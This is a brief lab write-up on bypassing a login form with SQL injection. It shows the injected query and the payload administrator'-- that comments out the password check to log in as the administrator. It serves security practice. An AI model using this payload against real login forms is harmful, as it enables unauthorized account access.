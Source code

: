 # SQL Injection - Bypassing login functionallity
 This lab contains a SQL injection vulnerability in the login function.

## Challenge
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Target:
Log into as the administrator using SQL Injection

## QUERY:
'''bash
SELECT * FROM users WHERE username='administrator'-- AND password='whateverpassword'
'''

In this instance, the payload is administrator'--
